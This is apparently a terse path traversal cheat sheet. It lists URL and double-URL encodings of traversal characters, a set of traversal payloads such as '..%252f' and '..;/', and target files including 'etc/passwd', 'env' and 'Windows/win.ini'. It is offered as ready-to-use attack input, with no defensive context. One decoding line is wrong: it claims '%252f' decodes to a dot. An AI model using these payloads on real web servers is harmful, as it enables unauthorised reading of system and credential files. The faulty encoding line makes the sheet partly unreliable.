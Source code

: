 # Path transversal

| Char | Encoded |
| --- | --- |
| space | %20 |
| / | %2f |
| \ | %5c |
| % | %25 |
| . | %2e |
| f | %66 |
| e | %65 |

## Tricks

%252%66 -> %2f -> /
%252%65 -> %2e -> .
%252f -> %2f -> /
%252f -> %2e -> .

## Payloads

..;/
..%5c
..%2f
../
..\
..%252f
%2e%2e%252f
/
//
///
////
/////
//////
///////
////////
/////////
//////////

## Files

env
etc/passwd
Windows/win.ini

